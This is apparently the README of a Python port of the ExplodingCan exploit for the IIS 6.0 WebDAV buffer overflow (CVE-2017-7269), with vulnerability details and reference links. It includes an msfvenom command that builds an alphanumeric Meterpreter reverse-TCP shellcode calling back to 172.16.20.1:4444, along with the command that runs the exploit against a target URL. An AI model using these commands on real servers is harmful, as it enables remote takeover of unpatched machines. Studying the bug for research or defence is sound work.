 # ExplodingCan

An implementation of ExplodingCan's exploit extracted from FuzzBunch, the "Metasploit" of the NSA.

![exploit](https://user-images.githubusercontent.com/1675387/34547090-d2c7309e-f0f8-11e7-83ca-02c1955432ad.png)

## Details

* **Vulnerability**: Microsoft IIS WebDav 'ScStoragePathFromUrl' Remote Buffer Overflow
* **CVE**: [CVE-2017-7269](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-7269)
* **Disclosure date**: March 31 2017
* **Affected product**: Microsoft Windows Server 2003 R2 SP2 x86


## Why?
Months ago I needed to study this exploit, and finally I implemented it in python.

## Shellcode

The shellcode must be in alphanumeric format due to the limitations of the bug. For example we can use `msfvenom` (metasploit) with the `alpha_mixed` encoder.

```
$ msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 >shellcode
```

## How To Use

```
python3 explodingcanPy3.py http://<target>
```
## Links

* [Fuzzbunch framework](https://github.com/x0rz/EQGRP_Lost_in_Translation)
* [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl)
* [0patching the "Immortal" CVE-2017-7269](https://0patch.blogspot.com.es/2017/03/0patching-immortal-cve-2017-7269.html)
* [First exploit published](https://www.exploit-db.com/exploits/41738/)
